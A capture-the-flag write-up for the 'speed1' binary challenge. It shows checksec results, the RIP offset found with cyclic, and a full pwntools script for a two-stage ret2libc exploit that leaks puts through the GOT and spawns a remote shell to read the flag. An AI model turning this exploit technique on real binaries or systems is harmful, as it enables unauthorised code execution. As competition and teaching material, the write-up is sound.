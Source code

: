 This challenge ships a 64bit binary and a libc.so.6 file. So first we test the binary:

![binary crashes with big input-string](segfault.png)

Now we test the security of the binary:

```

$ checksec ./speed1
[*] '~/speed1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


We have to figure out the size of the buffer and the offset to RIP:

```
$ cyclic -n 8 100  
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

```
$ gdb ./speed1
entry
break fgets
c
```

![return address is 0x6161616161616166](speed-return-address.png)

```
$ cyclic -n 8 -l 0x6161616161616166
40
```

It's 40. Perfect.


![main address was 0x4010d0](main-address.png)


Since there is ASLR enabled we have to find a way to figure out the address of *system*. We can use a function of the Global Offset Table for that.

Using pwndbg to see the GOT entries:

![puts is in got](got-functions.png)


Now we prepare a two stage payload. First stage finds out the address of puts via GOT. We need to calculate the address for the system-function.  The second stage delivers the ret2libc-payload:

```python
#!/usr/bin/env python3

import os
from pwn import *
import pwnlib.elf

context.log_level = 'debug'
c = remote('speed-01.hfsc.tf',61000)
#c = process('./speed1')
# break: 0x40124d
# c = gdb.debug(['./speed1'], gdbscript='''
#         b *0x40124d
#         c
# ''')
libc = ELF('libc.so.6')
e = ELF('./speed1')

context.binary = e
context.os = 'linux'
context.arch = 'amd64'
rop = ROP(e)

c.recvuntil('b0fz:')

# padding for buffer overflow
rop.raw("A" * 40)
rop.puts(e.got['puts'])
rop.call(0x4010d0) # address of main/entrypoint
print(rop.dump())

info("Stage 1, leaking puts@libc address")
c.sendline(rop.chain())
leakedPuts = c.recvline()[:8].strip()

leakedPuts = int.from_bytes(leakedPuts, byteorder='little')
success(f'Leaked puts: {leakedPuts:x}')
libc.address = leakedPuts - libc.symbols['puts']
info(f"Libc Address: {libc.address:x}")

info("Stage 2, ret2shell")
c.recvuntil('b0fz:')
rop2 = ROP(libc)
rop2.call(rop.find_gadget(['ret']))
rop2.call(libc.symbols['system'], [next(libc.search(b"/bin/sh\x00"))])

padding = (b"A"*40)
payload = b"".join([padding, rop2.chain()])
c.sendline(payload)
c.interactive()
```

As soon as we fire the exploit to the remote server we get a shell and can read out the flag using "cat flag":

![the flag was midnight{b3ee4fd1e8b331a237b234395d1ad0a0}](got-flag.png)

